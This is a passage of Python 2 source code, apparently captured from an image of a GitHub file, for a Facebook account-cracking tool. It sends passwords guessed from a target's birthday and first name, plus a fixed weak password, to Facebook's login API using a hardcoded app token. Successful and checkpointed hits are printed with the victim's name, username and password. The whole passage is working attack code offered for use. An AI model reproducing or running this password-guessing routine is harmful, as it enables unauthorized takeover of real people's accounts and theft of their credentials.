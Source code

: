 							menu_hack()
						else:
							if 'www.facebook.com' in y["error_msg"]:
								print "\033[1;91m[+] \033[1;92mFound"
								print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
								print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
								print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
								print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
								raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
								menu_hack()
							else:
								lahir = a['birthday']
								pz4 = lahir.replace('/', '')
								data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								y = json.load(data)
								if 'access_token' in y:
									print "\033[1;91m[+] \033[1;92mFound"
									print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
									print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
									print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
									raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
									menu_hack()
								else:
									if 'www.facebook.com' in y["error_msg"]:
										print "\033[1;91m[+] \033[1;92mFound"
										print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
										print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
										print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
										print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
										raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
										menu_hack()
									else:
										lahirs = a['birthday']
										gaz = lahirs.replace('/', '')
										pz5 = a['first_name']+gaz
										data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										y = json.load(data)
										if 'access_token' in y:
											print "\033[1;91m[+] \033[1;92mFound"
											print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
											print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
											print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
											raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
											menu_hack()
										else:
											if 'www.facebook.com' in y["error_msg"]:
												print "\033[1;91m[+] \033[1;92mFound"
												print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
												print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
												print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
												print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
												raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
												menu_hack()
											else:
												pz6 = "kontol123"
												data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												y = json.load(data)
												if 'access_token' in y: